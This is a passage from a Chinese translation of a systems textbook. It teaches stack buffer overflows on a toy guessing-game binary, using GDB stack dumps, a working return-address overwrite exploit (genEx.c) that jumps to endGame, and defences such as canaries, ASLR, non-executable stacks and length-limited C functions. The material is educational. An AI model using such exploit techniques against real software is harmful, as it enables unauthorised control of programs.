    //check to see if guess is correct

    if (guess != secret){

        printf("You lose!\n");

        return 2; //if guess is wrong, exit

    }

    /*if both the secret string and number are correct

    call endGame()*/

    endGame();

    return 0;

}
```

这个游戏要求用户首先输入一个秘密数字，然后输入一个秘密字符串来赢得猜数字游戏。头文件 `other.h` 包含了 `getSecretCode` 和 `calculateValue` 函数的定义，但我们无法访问它。那么，用户如何才能击败程序呢？暴力破解解决方案将需要很长时间。一种策略是使用 GDB 分析 `secret` 可执行文件，并逐步调试汇编代码，以揭示秘密数字和字符串。检查汇编代码以揭示其工作原理的过程通常被称为 *逆向工程*。对 GDB 和阅读汇编代码足够熟悉的读者应该能够使用 GDB 来逆向工程出秘密数字和秘密字符串。

然而，还有一种更隐蔽的方法可以获胜。

#### 8.10.3 更深入的分析（C 语言底层）

程序在第一次调用 `scanf` 时存在潜在的缓冲区溢出漏洞。为了理解发生了什么，让我们使用 GDB 检查 `main` 函数的汇编代码。我们还将在地址 0x0804859f 设置一个断点，这个地址是调用 `scanf` 之前的指令地址（将断点放在 `scanf` 的地址会导致程序执行在*scanf*内部暂停，而不是在 `main` 中暂停）。

```
   0x08048582 <+0>:     push   %ebp

   0x08048583 <+1>:     mov    %esp,%ebp

   0x08048588 <+6>:     sub    $0x38,%esp

   0x0804858b <+9>:     movl   $0x8048707,(%esp)

   0x08048592 <+16>:    call   0x8048390 <printf@plt>

 0x08048597 <+21>:    lea    0x1c(%esp),%eax

   0x0804859b <+25>:    mov    %eax,0x4(%esp)

=> 0x0804859f <+29>:    movl   $0x804871c,(%esp)

   0x080485a6 <+36>:    call   0x80483e0 <scanf@plt>
```

图 8-15 展示了在调用 `scanf` 之前栈的状态。



*图 8-15：调用`scanf`前的栈状态*

在调用`scanf`之前，`scanf`的参数已经预先加载到栈中，第一个参数位于栈顶，第二个参数位于栈下方一个地址。位于`<main+21>`的位置的`lea`指令创建了`buf`数组的引用。

现在，假设用户在提示符下输入了`12345678`。 图 8-16 展示了`scanf`调用完成后栈的情况。



*图 8-16：调用`scanf`并输入`12345678`后，栈的即时状态*

记住，数字 0 到 9 的 ASCII 编码的十六进制值是 0x30 到 0x39，并且每个栈内存位置长四个字节。帧指针比栈指针远 56 个字节。读者可以通过使用 GDB 打印`%ebp`的值（`p` `$ebp`）来确认`%ebp`的值。在示例中，`%ebp`的值是 0xffffd428。以下命令允许读者检查寄存器`%esp`下方的 64 个字节（以十六进制表示）：

```
(gdb) x /64bx $esp
```

这个 GDB 命令的输出类似于以下内容：

```
0xffffd3f0:     0x1c    0x87    0x04    0x08    0x0c    0xd4    0xff    0xff

0xffffd3f8:     0x00    0xa0    0x04    0x08    0xb2    0x86    0x04    0x08

0xffffd400:     0x01    0x00    0x00    0x00    0xc4    0xd4    0xff    0xff

0xffffd408:     0xcc    0xd4    0xff    0xff    0x31    0x32    0x33    0x34

0xffffd410:     0x35    0x36    0x37    0x38    0x00    0x80    0x00    0x00

0xffffd418:     0x6b    0x86    0x04    0x08    0x00    0x80    0xfb    0xf7

0xffffd420:     0x60    0x86    0x04    0x08    0x00    0x00    0x00    0x00

0xffffd428:     0x00    0x00    0x00    0x00    0x43    0x5a    0xe1    0xf7
```

每行表示两个 32 位字。因此，第一行表示地址 0xffffd3f0 和 0xffffd3f4 处的字。从栈顶看，我们可以看到与字符串`"%s"`（或 0x0804871c）相关的内存地址，后面跟着`buf`的地址（或 0xffffd40c）。请注意，`buf`的地址在本节中的图中简单地表示为 0x40c。

**注意 多字节值按小端顺序存储**

在前面的汇编段中，地址 0xfffffd3f0 处的字节是 0x1c，地址 0xfffffd3f1 处的字节是 0x87，地址 0xfffffd3f2 处的字节是 0x04，地址 0xfffffd3f3 处的字节是 0x08。然而，位于地址 0xfffffd3f0 的 32 位*值*（即字符串`"%s"`的内存地址）实际上是 0x0804871c。记住，因为 x86 是一个小端系统（参见第 224 页中的“整数字节顺序”），多字节值（如地址）的字节按逆序存储。类似地，数组`buf`的地址（0xffffd40c）对应的字节在地址 0xfffffd3f4 处按逆序存储。

地址 0xffffd40c 相关的字节与地址 0xffffd408 相关的字节位于同一行，并且是该行的第二个字。由于`buf`数组长 12 个字节，因此与`buf`相关的元素跨越了从地址 0xffffd40c 到 0xffffd417 的 12 个字节。检查这些地址处的字节可以得到：

```
0xffffd408:     0xcc    0xd4    0xff    0xff    0x31    0x32    0x33    0x34

0xffffd410:     0x35    0x36    0x37    0x38    0x00    0x80    0x00    0x00
```

在这些位置，我们可以清楚地看到输入字符串 12345678 的十六进制表示。空终止字节`\0`出现在地址 0xffffd414 的最左边字节位置。回想一下，`scanf`会用空字节终止所有字符串。

当然，12345678 并不是秘密数字。这里是我们尝试用输入字符串 12345678 运行`secret`时的输出：

```
$ ./secret

Enter secret number:

12345678

You are so wrong!

$ echo $?

1
```

`echo $?`命令会打印出最后执行命令的返回值。在这种情况下，程序返回了 1，因为我们输入的秘密数字是错误的。回想一下，按照惯例，当没有错误时，程序会返回 0。接下来的目标是欺骗程序让它以 0 为返回值退出，表示我们赢得了游戏。

#### 8.10.4 缓冲区溢出：第一次尝试

接下来，让我们尝试输入字符串 1234567890123456789012345678901234：

```
$ ./secret

Enter secret number:

1234567890123456789012345678901234

You are so wrong!

Segmentation fault (core dumped)

$ echo $?

139
```

有趣！现在程序因分段错误而崩溃，返回代码为 139。图 8-17 展示了`main`调用栈的样子，紧接着是用这个新输入调用`scanf`后的结果。



*图 8-17：调用`scanf`并输入 1234567890123456789012345678901234 后的调用栈*

输入字符串如此之长，以至于它不仅覆盖了地址 0x428 处的值，而且还溢出到`main`栈帧下方的返回地址。回想一下，当一个函数返回时，程序会尝试在返回地址指定的地址恢复执行。在这个例子中，程序在退出`main`后尝试在地址 0xf7003433 恢复执行，但该地址并不存在。因此，程序因分段错误而崩溃。

在 GDB 中重新运行程序（`input.txt`包含上面的输入字符串）可以揭示这种恶意行为的实际效果：

```
$ gdb secret

(gdb) break *0x804859b

(gdb) ni

(gdb) run < input.txt

(gdb) x /64bx $esp

0xffffd3f0:     0x1c    0x87    0x04    0x08    0x0c    0xd4    0xff    0xff

0xffffd3f8:     0x00    0xa0    0x04    0x08    0xb2    0x86    0x04    0x08

0xffffd400:     0x01    0x00    0x00    0x00    0xc4    0xd4    0xff    0xff

0xffffd408:     0xcc    0xd4    0xff    0xff    0x31    0x32    0x33    0x34

0xffffd410:     0x35    0x36    0x37    0x38    0x39    0x30    0x31    0x32

0xffffd418:     0x33    0x34    0x35    0x36    0x37    0x38    0x39    0x30

0xffffd420:     0x31    0x32    0x33    0x34    0x35    0x36    0x37    0x38

0xffffd428:     0x39    0x30    0x31    0x32    0x33    0x34    0x00    0xf7
```

注意到我们的输入字符串超出了数组`buf`的指定限制，覆盖了栈上存储的所有其他值。换句话说，我们的字符串引发了缓冲区溢出，破坏了调用栈，导致程序崩溃。这个过程也被称为*栈溢出*。

#### 8.10.5 更智能的缓冲区溢出：第二次尝试

我们的第一个例子通过用垃圾值覆盖`%ebp`寄存器和返回地址，破坏了栈，导致程序崩溃。一个仅仅目的是使程序崩溃的攻击者可能此时就满足了。然而，我们的目标是欺骗猜谜游戏返回 0，表示我们赢得了游戏。我们通过用比垃圾值更有意义的数据填充调用栈来实现这一点。例如，我们可以覆盖栈，让返回地址被`endGame`的地址替代。然后，当程序尝试从`main`返回时，它将执行`endGame`，而不是因为分段错误而崩溃。

为了找出`endGame`的地址，让我们在 GDB 中再次检查`secret`：

```
$ gdb secret

(gdb) disas endGame

Dump of assembler code for function endGame:

   0x08048564 <+0>:     push   %ebp

   0x08048565 <+1>:     mov    %esp,%ebp

   0x08048567 <+3>:     sub    $0x18,%esp

   0x0804856a <+6>:     movl   $0x80486fe,(%esp)

   0x08048571 <+13>:    call   0x8048390 <puts@plt>

   0x08048576 <+18>:    movl   $0x0,(%esp)

   0x0804857d <+25>:    call   0x80483b0 <exit@plt>

End of assembler dump.
```

注意到`endGame`的起始地址是 0x08048564。图 8-18 展示了一个示例利用，强制`secret`运行`endGame`函数。



*图 8-18：一个可以强制`secret`执行`endGame`函数的示例字符串*

再次提醒，由于 x86 是一个小端系统，栈是向低地址增长的，因此返回地址中的字节顺序看起来是反的。

下面的程序说明了攻击者如何构建前述的利用程序：

```
#include <stdio.h>

char ebuff[]=

"\x31\x32\x33\x34\x35\x36\x37\x38\x39\x30" /*first 10 bytes of junk*/

"\x31\x32\x33\x34\x35\x36\x37\x38\x39\x30" /*next 10 bytes of junk*/

"\x31\x32\x33\x34\x35\x36\x37\x38\x39\x30" /*following 10 bytes of junk*/

"\x31\x32" /*last 2 bytes of junk*/

"\x64\x85\x04\x08" /*address of endGame (little endian)*/

;

int main(void) {

    int i;

    for (i = 0; i < sizeof(ebuff); i++) { /*print each character*/

        printf("%c", ebuff[i]);

    }

 return 0;

}
```

每个数字前面的 `\x` 表示该数字以字符的十六进制表示形式格式化。在定义了 `ebuff[]` 之后，`main` 函数简单地逐个字符地将其打印出来。要获取关联的字节字符串，请按以下方式编译和运行此程序：

```
$ gcc -o genEx genEx.c

$ ./genEx > exploit
```

要将文件 `exploit` 作为 `scanf` 的输入，只需以以下方式运行 `secret`：

```
$ ./secret < exploit

Enter secret number:

You are so wrong!

You win!
```

该程序打印出“你错了！”因为 `exploit` 中包含的字符串*不是*秘密数字。然而，程序也会打印出字符串“你赢了！”请记住，我们的目标是欺骗程序返回 0。在更大的系统中，成功的概念由外部程序跟踪，最重要的通常是程序的返回值，而不是其输出。

检查返回值产生：

```
$ echo $?

0
```

我们的利用奏效了！我们赢得了比赛！

#### 8.10.6 缓冲区溢出防护

我们展示的例子改变了 `secret` 可执行文件的控制流，强制其返回与成功相关的零值。然而，这样的利用可能会造成实质性的损害。此外，一些旧的计算机系统*执行*来自堆栈内存的字节。如果攻击者在调用堆栈上放置与汇编指令相关联的字节，则 CPU 会将这些字节解释为*真正的*指令，使攻击者能够强制 CPU 执行他们选择的*任意代码*。幸运的是，现代计算机系统采用了一些策略，使得运行缓冲区溢出利用变得更加困难：

**堆栈随机化。** 操作系统在堆栈内存中随机分配堆栈的起始地址，导致程序每次运行时调用堆栈的位置/大小都不同。运行相同代码的多台机器会有不同的堆栈地址。现代 Linux 系统将堆栈随机化作为标准做法。然而，决心的攻击者可以通过尝试使用不同地址的攻击来强制执行攻击。一个常见的技巧是使用一个 *NOP 滑梯*（或滑块），即大量的 `nop` 指令，在实际利用代码之前。执行 `nop` 指令 (`0x90`) 没有其他效果，除了使程序计数器增加到下一条指令。只要攻击者能够让 CPU 在 NOP 滑梯中的某个地方执行，NOP 滑梯最终会导致其后的利用代码执行。Aleph One 在其文档^(9)详细说明了这种类型攻击的机制。

**栈溢出检测。**另一个防线是尝试检测栈是否被破坏。GCC 的最新版本使用了一个被称为*金丝雀*的栈保护器，它作为缓冲区与栈中其他元素之间的保护层。金丝雀是一个存储在不可写内存区域中的值，可以与栈上存储的值进行比较。如果金丝雀在程序执行过程中“死亡”，程序就会知道自己正在遭受攻击，并会中止并显示错误信息。然而，聪明的攻击者可以替换金丝雀，以防止程序检测到栈破坏。

**限制可执行区域。**在这条防线中，可执行代码仅限于特定的内存区域。换句话说，调用栈不再是可执行的。然而，即使是这个防线也能被突破。在利用*返回导向编程*（ROP）的攻击中，攻击者可以从可执行区域中“精心挑选”指令，并从一条指令跳转到另一条指令来构建利用链。网上有一些著名的例子，尤其是在视频游戏中。^(10)

然而，最有效的防线始终是程序员。为了防止对程序的缓冲区溢出攻击，请尽可能使用带有*长度说明符*的 C 函数，并添加执行数组边界检查的代码。确保任何已定义的数组都与所选的长度说明符匹配是至关重要的。表 8-18 列出了某些常见的“坏”C 函数，这些函数容易受到缓冲区溢出攻击，并给出了相应的“好”函数（假设`buf`已分配了 12 个字节）。

**表 8-18：** 带有长度说明符的 C 函数

| **代替** | **使用** |
| --- | --- |
| `gets(buf)` | `fgets(buf, 12, stdin)` |
| `scanf("%s", buf)` | `scanf("%12s", buf)` |
| `strcpy(buf2, buf)` | `strncpy(buf2, buf, 12)` |
| `strcat(buf2, buf)` | `strncat(buf2, buf, 12)` |
| `sprintf(buf, "%d", num)` | `snprintf(buf, 12, "%d", num)` |

`secret2`二进制文件^(11)不再具有缓冲区溢出漏洞。以下是该新二进制文件的`main`函数：

main2.c

```
#include <stdio.h>

#include <stdlib.h>

#include "other.h" //contain secret function definitions

 /*prints out the You Win! message*/

void endGame(void) {

    printf("You win!\n");

    exit(0);

}

/*main function of the game*/

int main() {

    int guess, secret, len;

    char buf[12]; //buffer (12 bytes long)

    printf("Enter secret number:\n");

    scanf("%12s", buf); //read guess from user input (fixed!)

    guess = atoi(buf); //convert to an integer

    secret=getSecretCode(); //call the getSecretCode function

    //check to see if guess is correct

    if (guess == secret) {

        printf("You got it right!\n");

    }

    else {

        printf("You are so wrong!\n");

        return 1; //if incorrect, exit

    }

    printf("Enter the secret string to win:\n");

    scanf("%12s", buf); //get secret string from user input (fixed!)

    guess = calculateValue(buf, strlen(buf)); //call calculateValue function

    //check to see if guess is correct

    if (guess != secret) {

        printf("You lose!\n");

        return 2; //if guess is wrong, exit

    }

    /*if both the secret string and number are correct

    call endGame()*/

    endGame();

    return 0;

}
```

请注意，我们在所有`scanf`的调用中添加了长度说明符，这导致`scanf`函数在读取输入的前 12 个字节后停止。利用字符串不再导致程序崩溃：

```
$ ./secret2 < exploit

Enter secret number:

You are so wrong!

$ echo $?

1
```

当然，任何具备基本逆向工程技能的读者仍然可以通过分析汇编代码来获胜。如果你还没有通过逆向工程挑战过这个程序，我们鼓励你现在就去尝试。

### 注释

1. Edsger Dijkstra,“Go To 语句的危害”，*ACM 通讯* 11(3)，第 147–148 页，1968 年。

2. *[`diveintosystems.org/book/C8-IA32/recursion.html`](https://diveintosystems.org/book/C8-IA32/recursion.html)*

3. Mohit Kumar, “致命的 Skype 漏洞让黑客远程执行恶意代码”，* [`thehackernews.com/2017/06/skype-crash-bug.html`](https://thehackernews.com/2017/06/skype-crash-bug.html)*, 2017.

4. Tamir Zahavi-Brunner, “CVE-2017-13253：多个 Android DRM 服务中的缓冲区溢出”，* [`blog.zimperium.com/cve-2017-13253-buffer-overflow-multiple-android-drm-services/`](https://blog.zimperium.com/cve-2017-13253-buffer-overflow-multiple-android-drm-services/)*, 2018.

5. Tom Spring, “谷歌修复‘高严重性’浏览器漏洞”，* [`threatpost.com/google-patches-high-severity-browser-bug/128661/`](https://threatpost.com/google-patches-high-severity-browser-bug/128661/)*, 2017.

6. Christopher Kelty, “莫里斯蠕虫”，*Limn 杂志*，第 1 期：系统性风险，2011 年。* [`limn.it/articles/the-morris-worm/`](https://limn.it/articles/the-morris-worm/)*

7. David Auerbach, “聊天大战：微软与 AOL”，*NplusOne 杂志*，第 19 期，2014 年春季。* [`nplusonemag.com/issue-19/essays/chat-wars/`](https://nplusonemag.com/issue-19/essays/chat-wars/)*

8. *[`diveintosystems.org/book/C8-IA32/_attachments/secret.tar.gz`](https://diveintosystems.org/book/C8-IA32/_attachments/secret.tar.gz)*

9. Aleph One, “为了乐趣和利润，砸烂堆栈”，* [`insecure.org/stf/smashstack.html`](http://insecure.org/stf/smashstack.html)*, 1996.

10. DotsAreCool, “超级马里奥世界信用传送” (任天堂 ROP 示例), *[`youtu.be/vAHXK2wut_I`](https://youtu.be/vAHXK2wut_I)*, 2015.

11. *[`diveintosystems.org/book/C8-IA32/_attachments/secret2.tar.gz`](https://diveintosystems.org/book/C8-IA32/_attachments/secret2.tar.gz)*
